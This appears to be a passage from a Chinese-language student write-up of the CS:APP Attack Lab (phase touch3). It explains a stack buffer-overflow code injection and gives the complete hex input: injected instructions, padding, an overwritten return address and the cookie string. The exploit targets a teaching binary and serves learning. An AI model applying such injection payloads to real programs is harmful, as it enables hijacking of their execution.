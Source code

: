 ![](./assets/image-20220305101326911.png)

逻辑如下：

- `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们注入的代码
- 代码执行，先将存在`caller`的栈中的字符串传给参数寄存器`%rdi`，再将`touch3`的地址压入栈中
- 代码执行`ret`，从栈中弹出`touch3`指令，成功跳转

### Solution

我们的cookie`0x59b997fa`作为字符串转换为`ASCII`为：`35 39 62 39 39 37 66 61`

注入代码段的地址与上题一样，同样为``0x5561dc78``

由于在`test`栈帧中多利用了一个字节存放cookie，所以本题要输入56个字节。注入代码的字节表示放在开头，33-40个字节放置注入代码的地址用来覆盖返回地址，最后八个字节存放cookie的`ASCII` 。于是得到如下输入：

```shell
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

![](./assets/image-20220305102649568.png)

